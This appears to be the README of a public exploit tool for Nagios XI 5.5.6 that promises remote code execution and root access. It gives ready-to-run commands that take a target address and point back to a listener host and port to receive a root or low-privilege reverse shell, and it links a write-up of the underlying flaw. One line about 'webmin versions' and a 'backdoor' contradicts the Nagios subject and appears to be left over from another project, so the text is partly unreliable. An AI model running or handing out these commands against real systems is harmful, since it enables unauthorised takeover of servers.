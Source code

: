 # Nagios XI 5.5.6 Remote Code Execution and Privilege Escalation

```
1.  Nagios XI 5.5.6
```

## Explanation of the exploit
https://medium.com/tenable-techblog/rooting-nagios-via-outdated-libraries-bb79427172

### Script Usage:
#### Tested on v1.890, but should also work for other webmin versions in which this backdoor is installed.

`python3 nagiosxi.py -h`

![](https://github.com/ruthvikvegunta/nagiosxi_rce-to-root/blob/master/images/help.png)

`python3 nagiosxi.py -t https://10.10.10.10 -lh 172.16.1.2 -lp 7777 -wh 172.16.1.2 -wp 8888`

![](https://github.com/ruthvikvegunta/nagiosxi_rce-to-root/blob/master/images/root.png)

`python3 nagiosxi.py -t https://10.10.10.10 -lh 172.16.1.2 -lp 7777 -wh 172.16.1.2 -wp 8888 -shell low`

![](https://github.com/ruthvikvegunta/nagiosxi_rce-to-root/blob/master/images/low_priv.png)
